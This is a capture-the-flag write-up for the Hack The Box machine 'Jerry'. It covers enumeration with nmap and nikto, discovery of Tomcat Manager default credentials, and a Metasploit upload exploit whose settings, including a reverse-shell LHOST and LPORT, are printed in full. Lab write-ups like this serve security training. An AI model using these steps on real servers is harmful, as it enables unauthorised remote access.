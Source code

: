 ## **Hack The Box - Jerry**

**Creator:** [mrh4sh](https://app.hackthebox.com/users/2570) 

**Difficulty:** Easy

**Link:** [Jerry](https://app.hackthebox.com/machines/144)

---


<ins> **Introduction** </ins>

![Jerry](/docs/assets/images/HTB/jerry/Jerry.png)

Jerry is fourth challenge and second vulnerable box in the Beginner Track on Hack The Box. The challenge involves using metasploit to execute an exploit that takes advantage of the fact that the Windows installer for *Apache Tomcat* used default login credentials in earlier versions.

[CVE-2009-3548](https://nvd.nist.gov/vuln/detail/CVE-2009-3548)

[Exploit-DB-31433](https://www.exploit-db.com/exploits/31433)

---


<ins> **Enumeration** </ins>


My first step with any vulnerable machine is to enumerate for service versions using nmap. 

`Nmap –sV –sC –O <target_IP> >> nmap.txt && cat nmap.txt `

This command tells *nmap* to scan the target IP for service versions and to test any default scripts it may be vulnerable to, along with attempting to identify the OS. It then outputs the results into a file called *nmap.txt* and then displays the contents of the file on screen using *cat*.

![nmap](/docs/assets/images/HTB/jerry/jerry01.png)

> PORT     STATE SERVICE VERSION 
>
> 8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1 
>
> |_http-favicon: Apache Tomcat 
>
> |_http-title: Apache Tomcat/7.0.88 
>
> |_http-server-header: Apache-Coyote/1.1 
> 
> |_http-open-proxy: Proxy might be redirecting requests 
>
> Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port 
>
> Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)

The machine is hosting an *Apache Tomcat/Coyote JSP engine 1.1 webserver* on *port 8080*. The OS scan couldn't say for sure but the machine is likely running on Windows.

---


<ins> **What Didn't Work** </ins>

I had a good lesson here in not limitting myself to the first results of my enumeration, or at the very least my first takeaway from the results.

I used *searchsploit* to look for the version of *apache tomcat* I thought the machine was using based on the *nmap* scan results. This yielded 2 results, one of which was a python script. Since I know a little bit of python I decided to start here.

![searchsploit](/docs/assets/images/HTB/jerry/jerry02.png)

Using `locate` to search for the file path listed on *searchsploit* I was able to easily find this script already stored on my system..

![locate](/docs/assets/images/HTB/jerry/jerry03.png)

Most python scripts utilize the `-h` or `--help` switch to display a menu that usually provides syntax for it's usage. 

![Script help](/docs/assets/images/HTB/jerry/jerry04.png)

The script is fairly simple to use it just requires the `-u` switch and *target IP*. Unfortunately this Webserver isn't actually vulnerable to this exploit.

![Script nope](/docs/assets/images/HTB/jerry/jerry05.png)

My guess is the machine isn't actually running on version 7.0.88 of *apache tomcat*.

---


<ins> **More Enumeration** </ins>

If at first you don't succeed enumerate some more.

One tool I like to use when enumerating a webserver is *nikto*

Taken from it's [repository](https://github.com/sullo/nikto/wiki/Overview-&-Description)

> Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. Scan items and plugins are frequently updated and can be automatically updated. 

*nikto* comes preinstalled on kali but a direct link to the [repository](https://github.com/sullo/nikto) is always handy.

The usage is pretty simple `nikto -h <target_ip>` does the trick. The -h switch tells nikto that the next line in the arguement will be the ip address to scan.

![nikto](/docs/assets/images/HTB/jerry/jerry06.png)

> + Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS  
>
> + OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server. 
>
> + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server. 
>
> + Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat. 
>
> + /host-manager/html: Default Tomcat Manager / Host Manager interface found 
>
> + /manager/html: Tomcat Manager / Host Manager interface found (pass protected) 
>
> + /manager/status: Tomcat Server Status interface found (pass protected) 

Some key takeaways from this scan. 

The webserver accepts all basic forms of http requests and clients are likely able to save and remove files from the webserver. In addition to that it runs something called *Tomcat Manger Application* with default credentials listed as *user ID: tomcat* and *password: s3cret* 

earlier I told *searchsploit* to list vulnerablities related to *apache tomcat 7.0.88* which would have missed any results related to *tomcat manager* which there were.

![searchsploit2](/docs/assets/images/HTB/jerry/jerry07.png)

There are 3 exploits related to tomcat manager, one of which is related to uploading which thanks to *nikto* I know I'm able to do.

---


<ins> *Metasploit* </ins> 

In the `msfconsole` I enter `search tomcat manager` to up a list of exploits related to it, there are several but the one I found on *searchsploit* that i'm looking for match *2* on my console so I enter `use 2`

![msfconsole](/docs/assets/images/HTB/jerry/jerry08.png)

Once the module loads up I enter `show options` to see what configurations the exploit needs to run and then set the appropriate ones.

![msfconsole options](/docs/assets/images/HTB/jerry/jerry09.png)

```
set HttpPassword s3cret

set HttpUsername tomcat

set RHOST 10.10.10.95

set RPORT 8080

set LHOST 10.10.14.2

set LPORT 4444
```

After changing configurations I always `show options` again just to verify everything is how I want it.

![options2](/docs/assets/images/HTB/jerry/jerry10.png)

I then set up a listner to catch the shell the payload generated but that wasn't necessary and actually caused an error the first time I ran the exploit.

![exploit](/docs/assets/images/HTB/jerry/jerry11.png)

Enter *shell* in the *meterpreter* grants access to the *command line* From there it was as simple as using various windows commands to navigate through the file system and find the flags. Even though *nmap* told me it was a Windows server earlier I still caught myself using Linux commands several times out of habbit.

![navigate1](/docs/assets/images/HTB/jerry/jerry12.png)

![navigate2](/docs/assets/images/HTB/jerry/jerry13.png)

![navigate3](/docs/assets/images/HTB/jerry/jerry14.png)

The flags are found on the *adminstrator* users *desktop* in a directory called *flags* that contains a single file *"2 for the price of 1.txt"*. Since this is a windows machine the *type* command is what is used to read the file.

![flags](/docs/assets/images/HTB/jerry/jerry15.png)

All that's left to do is submit them on Hack The Box.

![pwned](/docs/assets/images/HTB/jerry/jerry16.png)

---


<ins> **Final Thoughts** </ins>

Another machine in the beginner track defeated with *metasploit*. I was hoping that the *python* script for the first exploit would work out so I didn't have to use *metasploit* again but here we are.  There is probably more than one way to break into this machine as *tomcat manager* had a *XSS* exploit associated with it as well as several other exploits on *metasploit* so perhaps it will be worth revisiting someday. 




